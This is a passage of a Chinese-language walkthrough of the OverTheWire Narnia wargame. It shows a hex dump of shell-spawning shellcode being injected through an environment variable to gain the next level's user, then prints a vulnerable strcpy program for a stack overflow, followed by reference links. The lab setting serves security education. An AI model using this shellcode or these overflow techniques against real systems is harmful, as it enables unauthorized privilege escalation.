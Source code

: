 

### Step 4: 把它转换成十六进制

有一个十六进制形式的开发是非常有用的(我们将在下一层看到)因此我们将使用xxd来读取它:

```sh
narnia5@melinda:/tmp$ xxd shellspawn
0000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
0000010: 89e2 5089 e1b0 0bcd 80                   ..P......
```

真了不起!我们可以进行测试:
```sh
narnia1@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```


----------


## Level 2: 堆栈溢出到返回地址

### Step 1: 理解问题:

第三关以此开始:

```
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ cat narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
  char buf[128];

  if(argc == 1){
    printf("Usage: %s argument\n", argv[0]);
    exit(1);
  }
  strcpy(buf,argv[1]);
  printf("%s", buf);

  return 0;
}
```

该函数使用```strcpy()```将输入字符串复制到*buf*(而不是更安全的```strncpy()```).  因为没有边界检查,  *buf*如果输入大于128字节，则会溢出到堆栈中的更高地址.


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP